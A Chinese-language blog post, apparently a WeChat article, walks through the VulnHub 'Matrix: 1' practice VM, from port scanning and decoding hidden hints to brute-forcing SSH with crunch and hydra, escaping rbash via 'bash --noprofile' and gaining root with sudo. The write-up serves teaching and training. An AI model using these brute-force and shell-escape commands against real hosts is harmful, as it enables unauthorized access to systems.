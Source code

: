 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/x_cxJUK5b_yPs5T4Bi8EDw)

大家好，我们是想要为亿人提供安全的亿人安全，这是我们自己想要做的事情，也是做这个公众号的初衷。希望以干货的方式，让大家多多了解这个行业，从中学到对自己有用的知识。

**靶机描述：**

下载地址：http://www.vulnhub.com/entry/matrix-1,259/

级别：中级  

目标：得到 root 权限和打开 flag.txt

扫描靶机 ip

```
arp-scan -l
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6LsYZ8BVyrGRlMGQDOsIFhH3Nzx7NZBGHLNncOtvJiaG8JpWUQEtsAt7Q/640?wx_fmt=png)

```
攻击机：192.168.86.138
靶机：192.168.86.162
```

查看开放端口及版本信息

```
nmap -sV -p- 192.168.86.162
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6LBJosKiajgEDIVrPGoCSicXsfJojLW1ELHuFRAnA6K5Gqm0ibKWsq8vZtQ/640?wx_fmt=png)

访问 80 端口页面，Follow the White Rabbit(跟随白色兔子)，Welcome to the real world, Neo. I'm glad you're here(欢迎来到真实世界，尼奥。很高兴你能在这里)。(ps~ 黑客帝国帝国的片段)

```
http://192.168.86.162:80
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6L6LZnDEhm2drCax5faF5jfyCWL0XaoB6iafNIstESTYrOcPyp21G1heA/640?wx_fmt=png)

查看网页源码时发现发现图片链接

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6LHoNEpoicQEQX6VAEtoHXTiasD48hErkASKz39z0ibHhAInIueicW0yqVtA/640?wx_fmt=png)

打开后是一只白兔，并图片命名为 31337.png，根据提示那重要信息应该在 31337 端口中

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6LujOh5xSicbmX6abQVh2wibx78ZgaQpyYQTBoVSqdnPU0uNEDIYiamLuGw/640?wx_fmt=png)

打开 31337 端口页面，Cypher(暗号)，"You know.. I know this steak doesn't exist. I know when I put it in my mouth; the Matrix is telling my brain that it is juicy, and delicious. After nine years.. you know what I realize? Ignorance is bliss."(“我知道这块牛排不存在。我知道当我放进嘴里时，矩阵正在告诉我的大脑它是美味多汁的。九年之后，你知道我意识到什么了吗？无知是幸福的。”)

```
http://192.168.86.162:31337
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6L3PdCJge7l4U19kYoVXEdQ2qyqhWFpouSFs0F4Sw1UiaydWZYtGqU2iaw/640?wx_fmt=png)

查看网页源码，找到用 base64 编码的一段话

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6L5sxrnorayo5xLLNEgloS4ia8PSoOBjHDxnTicIeUxbRXiaRJF3DJM6hog/640?wx_fmt=png)

解码后，Then you'll see, that it is not the spoon that bends, it is only yourself.>Cypher.matrix(你将会看见，弯曲的不是汤勺，而是你的信念。)

```
https://base64.us/
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6LwbPHc4GcXfDIWNFoTaZ5icR5nEbDH1iawvkQctqGOzlexmpicoN5qCFgw/640?wx_fmt=png)

尝试以 / Cypher.matrix 为路径打开网页，出现了下载文件提示

```
http://192.168.86.162:31337/Cypher.matrix
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6LF9AxxJrLFuXp6s445fcNudOjFBKu5VFjqZsYric8NyPv2uicib1oCuDGg/640?wx_fmt=png)

下载文件查看，文件内容使用 brainfuch 编码加密，进行解码后得到提示，You can enter into matrix as guest, with password k1ll0rXX Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password.(你可以以 guest 进入到矩阵，密码为 k1ll0rXX 提示：事实上，我忘记了最后两个字符，所以我用 XX 替代了它们，你够幸运的话去找到正确的密码字符串)

```
https://www.splitbrain.org/services/ook
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6LgrTXNRUeUDbiariaz7HpXUgeSfUHdCVwByAiboLrHJQjeibwOJJ2zNLPJg/640?wx_fmt=png)

使用 crunch 字典生成工具生成密码字典，选择要使用的字符集范围，选择使用 lalpha-numeric 字符集

```
文件路径：/usr/share/crunch/charset.lst
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6L5FjxK0GuNfUxBUWxPsEiaK5kNSGB3VcViaDia0uS9QDDoMQG2fU0KrJcA/640?wx_fmt=png)

生成字符字典

```
crunch 8 8 -f /usr/share/crunch/charset.lst lalpha-numeric -t k1ll0r@@ > pwd.dic

8 8:表示密码的长度为8位
-f /usr/share/crunch/charset.lst lalpha-numeric:指定字符集
-t k1ll0r@@:指定模式，@@插入小写字符
> pwd.dic:生成字典文件
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6L3oPQRssAkPDJKt2cWDEC8ytwJVzB9x9UkpqyvgqdtFFTOsGaj6xNDA/640?wx_fmt=png)

得到字典文件后使用 hydra 通过连接 ssh 进行密码破解

```
hydra -l guest -P pwd.dic  -v 192.168.86.162 ssh 

-l:指定用户
-P:指定字典
-v:显示爆破详细信息
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6LK0RcgGTetlGTuCKxsIErCEgicrwPvSyQGFR0pzSltiaUzv1D4BFYzh1A/640?wx_fmt=png)

登录 ssh 成功

```
ssh guest@192.168.86.162
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6L5A2aTicXF3iaFyjJh3tHBW1U1vTr4TH7TNu4vmTOtqC8HXzHPaibS7C9Q/640?wx_fmt=png)

由于 bash shell 功能受限，所以采取 rbash 绕过方式

```
参考文章：
https://www.freebuf.com/articles/system/188989.html
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6LVdevtooUqwhXlfhqN1UeQhGPZxYmsUyhWyiaaLdEbnc6RxgFuiciaq21g/640?wx_fmt=png)

重新登录 ssh，成功绕过 rbash

```
ssh guest@192.168.86.162  -t "bash --noprofile"
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6LrmEQgd3P2aGFNduPsQzlibDVwiaHDic5JDltblr0pfrOjogd9x8haNnxw/640?wx_fmt=png)

使用命令查看目前用户权限

```
sudo -l
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6LuVQzicGVhCSq7G2oFwLzP0BfsYB1SZukU65ZToHRXSibFzY0Tfeje7Hg/640?wx_fmt=png)

成功切换到 root 用户，得到 flag.txt

```
sudo su root
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBDLn4FXltlicYMjmka2S6LEibh7WvuC3t946Ch0ZKssZiauBZa1cXqic2VsE2NSmR8sWcOAIBsyROTA/640?wx_fmt=png)